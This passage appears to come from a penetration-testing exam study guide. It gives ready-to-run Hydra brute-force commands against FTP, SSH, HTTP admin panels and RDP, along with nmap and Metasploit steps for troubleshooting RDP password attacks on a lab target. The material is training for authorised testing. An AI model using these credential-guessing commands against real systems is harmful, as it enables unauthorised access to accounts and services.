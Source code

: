### **🔍 Typical Exam Questions You'll See:**
1. **"Find valid FTP credentials for the target system"**
   - Use: `hydra -L users.txt -P passwords.txt target_ip ftp`

2. **"What is the password for the admin user on the SSH service?"**
   - Use: `hydra -l admin -P passwords.txt target_ip ssh`

3. **"Access the web admin panel using password attack"**
   - Use: `hydra -l admin -P passwords.txt target_ip http-get /admin`

4. **"What are the valid RDP credentials for the Windows target?"**
   - Use: `hydra -L users.txt -P passwords.txt rdp://target_ip -s 3333`

5. **"How many valid user accounts can you find on the FTP server?"**
   - Use comprehensive wordlist attack and count results

6. **"Can you gain remote desktop access to the target system?"**
   - Use RDP brute force followed by xfreerdp verification

---

## ⚠️ Common Problems and How to Fix Them

### **❌ Problem 1: RDP Connection Issues**

**What You See:**
```bash
hydra -L users.txt -P passwords.txt rdp://target_ip
# Output: [ERROR] connection refused
# Output: [WARNING] RDP servers often don't like many connections
```

**How to Fix:**
```bash
# Step 1: Reduce parallel connections for RDP
hydra -t 1 -W 5 -L users.txt -P passwords.txt rdp://target_ip
# RDP services are sensitive to multiple connections

# Step 2: Check if service is on non-standard port
nmap -p 3389,3333,3390 target_ip
# Common RDP ports besides default 3389

# Step 3: Use Metasploit to confirm RDP service
msfconsole -q
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS target_ip
exploit

# Step 4: Try with explicit port specification
hydra -L users.txt -P passwords.txt rdp://target_ip -s 3333
```

**Common Causes:**
- RDP service configured on non-standard port
- Multiple connection attempts overwhelming service
- Network firewall blocking RDP connections
- Service configured to accept limited concurrent sessions

---